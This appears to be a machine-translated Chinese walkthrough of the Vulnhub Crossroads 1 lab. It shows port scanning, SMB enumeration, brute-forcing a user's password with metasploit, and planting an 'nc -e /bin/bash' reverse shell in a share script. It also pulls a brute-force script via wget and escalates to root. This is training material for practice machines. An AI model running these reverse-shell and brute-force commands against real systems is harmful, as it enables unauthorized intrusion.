 # Vulnhub:十字路口 1 演练

> 原文：<https://infosecwriteups.com/vulnhub-crossroads-1-walkthrough-e24371105471?source=collection_archive---------4----------------------->

Wuahahahhahaha！再次溜进来，为来自**vulnhub*Crossroads 1***的箱子的 ya 留下另一篇报道。看看我刚刚发表的上一篇博客 [Vulnhub: MoneyBox 1 演练](https://hellfire0x01.medium.com/vulnhub-moneybox-1-walkthrough-fcee571b52ae)。你可以从这里下载盒子，

[](https://www.vulnhub.com/entry/crossroads-1,659/) [## 十字路口:1

### 该网站使用“cookies”为您提供最佳、最相关的体验。使用这个网站意味着你对…

www.vulnhub.com](https://www.vulnhub.com/entry/crossroads-1,659/) 

*旧钞是金*！话虽如此，我们还是开始吧。

**扫描网络**

使用`netdiscover`我们将找出机器的 IP 地址，

```
sudo netdiscover -r 10.0.2.0/24
```

![](img/cf4e922d06ef7faac377ce02370cff64.png)

现在，我们将对该 IP 地址进行端口扫描，以找到该计算机上打开的端口、运行的服务和漏洞，并将输出保存在名为 nmap.txt 的文件中。

```
nmap -A -T4 -p- 10.0.2.47 > nmap.txt
```

![](img/a64afbe965b9c266bc86511a42b21ef7.png)

正如我们所看到的，只有 2 个端口开放，即 80(HTTP)，接下来是 139–445(SMB)。

**枚举**

因为我们知道 webserver 运行在端口 80 上，所以我们可以通过 whatweb 工具查看网站上运行的是什么技术，

```
whatweb 10.0.2.44
```

![](img/6dd2101afe4a7c2a88ddf273b2c7f042.png)

让我们访问 [http://10.0.2.44](http://10.0.2.44/) ，

![](img/f3bb37763fc293a068becb496f5ee9f5.png)

似乎这个网站将我们重定向到官方网站。现在，让我们使用 gobuster 对目录进行暴力破解，

```
gobuster dir -u http://10.0.2.44/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -x txt,php,xxa 2>/dev/null
```

![](img/668f9f26d1b862542fec7b0b9c4473d3.png)

我们有一些路径，让我们访问每一个。

访问[http://10 . 0 . 2 . 44/note . txt](http://10.0.2.44/note.txt)，

![](img/d6652a8dbb4d4c27a1f268d75a2d2508.png)

似乎这是一些有趣事情的关键。

访问[http://10 . 0 . 2 . 44/robots . txt](http://10.0.2.44/robots.txt)，

![](img/fb069d672ec05f1491c4f0f263f354db.png)

robots.txt 中有一个奇怪的图像路径，但我们暂时不去管它。

我们可以列出所有的股份，并使用 smbclient 分别检查所有的股份，

```
smbclient -L \\\\10.0.2.44\\
```

![](img/7f0105a1a128073819d4c15d6d6eb286.png)

当检查 print$ share 时，我们被拒绝访问，因为机器不希望我们访问打印共享。

![](img/744f41b744609c1d5e9d37c0908dcc2a.png)

当检查 smbshare 共享时，我们的访问被拒绝，因为机器不希望我们访问 smbshare。

![](img/15b5ae8c612dde724af72be2ba4bacd9.png)

检查 IPC$ share 时，我们可以看到我们已连接到共享，现在我们可以访问共享，但当我们键入命令来访问共享时，它将什么也不显示。

![](img/1e33f7e18a6a31032810a3332760d5f6.png)

让我们运行 Enum4linux，看看我们得到了什么，

```
enum4linux -a 10.0.2.44
```

![](img/c22ec50dbeb5d364e5f4245a2f3c44da.png)![](img/8913d39cf028bd43b95cb006c813232d.png)

我们可以看到本地用户是 **albert** ,因此我们可以通过

```
smclient -l \\\\10.0.2.44\\ -U 'albert'
```

![](img/5d18f6bed073436db42c2008161fc961.png)

但是我们可以看到它需要密码。

所以我们将通过 **smb-login-check** 模块使用 metasploit-framework 强制使用该密码，

![](img/b7ada3115af3210786cc9527b35ad719.png)

现在设置**选项，**

*   **设定 rhosts 10.0.2.44**
*   **设置 pass _ file/usr/share/word lists/rock you . txt**
*   **设定 smbuser 艾伯特**

点击`run`然后它会开始强力查找密码，在等待几分钟后，我们得到了 **albert** 用户的密码，

![](img/61b5b65b6371c4d52342f3a240d31827.png)

现在让我们映射 albert 用户的所有共享，我们发现了这个(我们只能阅读内容)

```
smbmap -H 10.0.2.44 -u 'albert' -p '********'
```

![](img/ed73624c219686c389d5b47b9f1d73cb.png)

现在我们将尝试获取 albert 用户的 albert 共享并输入密码，

![](img/1c3a3861d7572890eab3f54bd90c898a.png)

我们找到了文件 **user.txt** file。

现在是时候使用`get`命令在我们的本地系统上下载文件了。

![](img/41660fff99376d20af8ccc6a81d9221b.png)![](img/67bcffbfa4a5ff8fe809b6e21e42ffa4.png)

看到本地系统中 **user.txt** 文件的内容，

![](img/7966a636e9173725e643a71f9b80b712.png)

再次列出所有的股票，我们决定尝试艾伯特用户的 smbshare。

```
smbclient \\\\10.0.2.44\\smbshare -U albert
```

![](img/97e4b3cf4f3861d703cd1ddb56d01453.png)

使用 get 命令在本地系统上下载文件。

查看 **smb.conf** 文件的内容并滚动到文件的底部，我们得到这个

![](img/11cc3708f5cffda9f9321280b2900dbf.png)

它说我们可以用 smbscript.sh 文件做一些神奇的事情。因此，我们将使这个文件成为连接的反向外壳，

```
touch smbscript.sh; echo 'nc -e /bin/bash 10.0.2.15 4444' > smbscript.sh
ls
cat smbscript.sh
```

![](img/a64048d6c9d38e0c29810cf8b766780d.png)

用这个我们创造了一个反向的外壳。现在唯一的事情就是使用`put`命令将这个文件上传到 smbshare 上。

```
put smbscript.sh
```

将文件放在 smbshare 实例上，netcat `nc -nvlp 4444`并行运行，接收反向 shell 给出的连接，

![](img/8194008a11e1522ff26fa4a240864aa6.png)

我们得到了反向 shell，可以通过 whoami 命令确认连接，

现在我们将改进外壳的功能

```
export TERM=xterm
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

![](img/1f97e462ea65d148e007047230f44e34.png)

现在剩下的都是系统的特权。

我们必须下载 crossroads.png 文件，使用 stegoveritas 工具提取信息，然后从提取目录复制单词列表，并使用 python 服务器在远程系统上上传单词列表

![](img/809851bb58f662202f3e3bd32eca4536.png)

现在我们将创建一个 brute.py 文件来暴力破解密码

![](img/868f1713e8d029cd88d370a55c3c92a3.png)

现在，我们将使用 python 服务器在远程机器上上传这个 python 文件。首先使用`python3 -m http.server`启动 python 服务器，然后调用我们制作的脚本，

```
wget http://10.0.2.15:8000/brute.py
```

![](img/9e98e3e07166dd111cf71cd4de2444b2.png)

正如我们看到的，该文件被上传到远程机器上，并通过`chmod +x brute.py`更改文件的执行权限，

![](img/475e519b6c882ac3af8df4495ba73b10.png)

我们得到了根用户证书。让我们切换到根用户。

现在我们将进入根目录寻找根标志。

![](img/260bda722ace4b588472b37f839deacf.png)

我们有根旗！

嗯暂时就这样吧！但我会确保再次与大家分享我的旧笔记。这是一个随机的想法与你分享，当我看到它们时，我笑了，并为自己感到尴尬。但是我想这很有趣。感谢阅读，干杯。回头见。注意安全！